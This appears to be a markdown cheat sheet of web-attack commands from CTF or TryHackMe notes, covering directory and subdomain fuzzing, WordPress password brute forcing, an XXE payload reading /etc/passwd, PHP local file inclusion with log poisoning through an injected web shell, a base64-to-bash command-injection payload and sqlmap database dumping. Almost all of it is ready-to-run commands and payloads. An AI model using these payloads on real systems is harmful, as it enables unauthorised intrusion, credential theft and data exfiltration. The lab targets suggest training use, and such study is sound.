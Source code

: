 [back](/README.md)
#### Discover hidden directories:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://$IP/island/2100/FUZZ.ticket

feroxbuster -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200
```

#### Discover subdomains:
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 
gobuster vhost -u http://holo.live -w /usr/share/seclists/Discovery/DNS/subdomains.txt -t 30
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -fw 125
ffuf -u http://nahamstore.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nahamstore.thm"
amass enum -brute -passive -d nahamstore.com | anew subdomains.txt
```
#### Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index
curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
#### bypass waf sqlmap
```
--tamper=space2comment
```

#### cadaver for WebDAV

#### payload in json format
```
"\";echo <base64 payload> | base64 -d | bash;\""
```
#### sqlmap
```bash
sqlmap -r req.txt -p <parametr> --dbs
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
sqlmap -r req.txt -D <database_name> -T <table_name> --columns
sqlmap -r req.txt-p  -D <database_name> --dump-all
```

